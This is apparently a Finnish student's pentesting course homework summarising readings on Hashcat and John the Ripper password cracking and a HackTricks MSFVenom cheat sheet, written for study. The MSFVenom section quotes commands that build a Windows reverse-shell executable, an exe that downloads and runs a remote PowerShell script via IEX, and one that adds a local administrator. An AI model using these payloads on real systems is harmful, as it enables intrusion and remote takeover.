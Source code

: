 # H4 - Marraskuu2024!
##### Pentesting course taught by Tero Karvinen @ Haaga-Helia

## x) Lue/Katso ja tiivistä
### Karvinen 2022: Cracking Passwords with Haschat
- Plaintext-salasanojen sijaan järjestelmät tallentavat hasheja. Hashia ei voi muuttaa takaisin salasanaksi
- Samalla hashaus-menetelmällä hashatut salasanat antavat aina saman hashin, eli jos menetelmä on tiedossa niin sama salasana antaa saman hashin.
- Hashcat tarvitsee sanakirjan jonka avulla se voi vertailla salasanojen hasheja kräkättävään hashiin

### Karvinen 2023: Crack File Password with John
- Mikäli .zip-tiedoston sisältö on enkryptattu, tiedosto voidaan kyllä purkaa mutta kansio on tyhjä
- Jumbo John pystyy kräkkäämään suuren määrän eri tiedostomuotoja
- John käyttää myös sanakirjahyökkäystä
- Jumbo Johnista on myös maksullinen versio, mutta seuraamalla Teron ohjetta artikkelista sen saa koottua git:in avulla ilmaiseksi

### € Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials


### Polop et al 2024: HackTricks: MSFVenom
- MSFVenom on työkalu jolla saa tehtyä omia haittaohjelmia
- Hyödyllisiltä kommenoilta vaikuttavat ne jotka luovat Shell yhteyden, tai suorittavat komennon:
  - Reverse Shell (Kohde kone avaa itse yhteyden hyökkääjäkoneeseen):
 
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
  - Execute Command:

        msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
        msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
- Nämä komennot ovat erityisesti Windows-ympäristöihin

# Lähteet:

- Karvinen, T. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/. Luettu: 20.11.2024
- Karvinen, T. 2023. Crack File Password with John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/. Luettu: 20.11.2024
- Santos, O., Sternstein, J., Taylor, R., McCoy, C. 2017. Security Penetration Testing - The Art of Hacking Series. Video. Katsottavissa: https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/. Katsottu: 20.11.2024
- HackTricks s.a. MSFVenom - CheatSheet. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom. Luettu: 20.11.2024
